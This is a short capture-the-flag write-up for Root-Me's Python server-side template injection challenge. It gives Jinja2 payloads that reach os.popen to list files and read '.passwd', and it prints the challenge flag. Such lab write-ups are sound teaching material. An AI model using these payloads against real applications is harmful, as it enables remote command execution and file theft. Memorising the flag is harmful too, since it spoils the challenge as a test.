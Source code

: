 ```yaml
---
title: Python - Server-side Template Injection Introduction
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 25
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

## Statement

> This service allows you to generate a web page. Use it to read the flag!

## Analyzation

Try payload

```
{%raw%}{{ 7*7 }}{%endraw%}
```

It is executed --> the site is vulnerable to SSTI.

## Exploitation

Searching payload in the internet, I got this one work

```py
{%raw%}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}{%endraw%}
```

Change command in ```popen('ls -la')``` to execute shell code.

After reading all files listed above, ```.passwd``` has what I need

```py
{%raw%}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat .passwd').read() }}{%endraw%}
```

The flag is

```
Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!
```

## Resources


- [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

- [https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)

- [https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack)